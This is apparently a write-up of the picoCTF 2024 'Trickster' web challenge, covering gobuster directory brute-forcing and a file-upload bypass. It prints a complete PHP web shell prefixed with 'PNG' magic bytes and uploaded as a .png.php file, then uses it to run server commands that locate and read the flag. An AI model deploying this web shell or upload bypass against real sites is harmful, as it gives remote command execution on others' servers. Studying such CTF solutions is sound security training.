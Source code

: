 
# picoCTF 2024: Trickster
---
Tags: Web Exploration, browser_webshell_solvable

![](./img/question.png)

### Description
I found a web app that can help process images: PNG images only!

---
From the challenge link, we are directed to an image upload features website
![](./img/webview.png)

---
Here, we are using "Gobuster-tool" to peform **URLs and DNS brute force attack** for extracting directories and files form inside URLs and sub-domains.   
![](./img/cmdline1.png)
```
gobuster dir -u http://atlas.picoctf.net:58140 -w /usr/share/wordlists/dirb/common.txt
```

gobuster *dir* *-\<options(target_url)>* *\<url>* -*\<options(wordlist_path)>* *\<path>*  
![](./img/gobustercmd.png)

We head to /robots.txt and it leads me to /instructions.txt  
![](./img/robottxt.png)  
The /instructions.txt  
![](./img/instructiontxt.png)  
- From /instructions.txt, we know that the file we upload needs to have .png extension and the first few bytes contain 'PNG' magic bytes in hexadecimal "50 4E 47"
- From gobuster promts, we could guess that file uploaded will be saved at /uploads folder
- By knowing these informations, we can download web shell from [easy-simple-php-webshell.php](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985)
- The php webshell generate a CLI for us to execute commands on the server remotely.
- Ensure that the server do checks the first few characters to be "PNG", so we must put them at the beginning of the code:
```
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

---
And so I uploaded the phpWebshell.png.php file  
![](./img/phpWebshell.png)  
The file is successfully checked, and server tells us "We shall process it"
From the guess previously, we know that the webshell file might now be stored at  /uploads directory.

We try to access the uploaded webshell file  
![](./img/uploadfolder.png)  
Starting off here, we can search the flag in the system however we want, using the webshell injected, we can use the command:
```
find / -name "*.txt"
```
to search the root folder, with files that end with ".txt" extension at the server side  
![](./img/findName.png)  
Click on "Execute"  

![](./img/flagText.png)  
We found the text file, try to *concatenate* it
```
cat /var/www/html/GQ4DOOBVMMYGK.txt
```
![](./img/concatenate.png)  
Click on "Execute"  

![](./img/flag.png)  
The flag has been found!

### Mind Map  
![](./img/mindMap.png)  
